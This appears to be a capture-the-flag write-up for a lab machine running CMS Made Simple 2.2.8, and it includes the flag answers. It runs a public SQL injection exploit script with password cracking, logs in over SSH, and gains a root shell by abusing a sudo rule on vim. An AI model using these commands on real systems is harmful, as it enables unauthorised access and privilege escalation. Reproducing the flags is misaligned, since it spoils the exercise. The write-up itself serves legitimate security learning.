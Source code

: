 ~~~bash
# Website application version found to be CMS Made Simple version 2.2.8
~~~

6. To what kind of vulnerability is the application vulnerable? - **SQLi**

7. What's the password? - secret
~~~bash
# Download script from this CVE, exploit using that. 

┌──(kali㉿kali)-[~/Downloads]
└─$ python3 46635.py -u http://10.10.157.152/simple/ --crack -w /usr/share/wordlists/rockyou.txt

# This will give hash then crack it. 
~~~

9. Where can you login with the details obtained? - **ssh**

10. What's the user flag? - **G00d j0b, keep up!** 
~~~bash
$ whoami
mitch
$ ls
user.txt
$ cat user.txt  
G00d j0b, keep up!
~~~

12. Is there any other user in the home directory? What's its name? - **sunbath**
~~~bash
$ cd /home
$ ls
mitch  sunbath
~~~

14. What can you leverage to spawn a privileged shell? - **vim**
~~~bash
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
~~~

16. What's the root flag? - **W3ll d0n3. You made it!**
~~~bash
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
$ sudo vim -c ':!/bin/sh'

# id     
uid=0(root) gid=0(root) groups=0(root)
# ls
user.txt
# cat user.txt
G00d j0b, keep up!
# cd /root
# ls
root.txt
# cat root.txt
W3ll d0n3. You made it!
# 
~~~
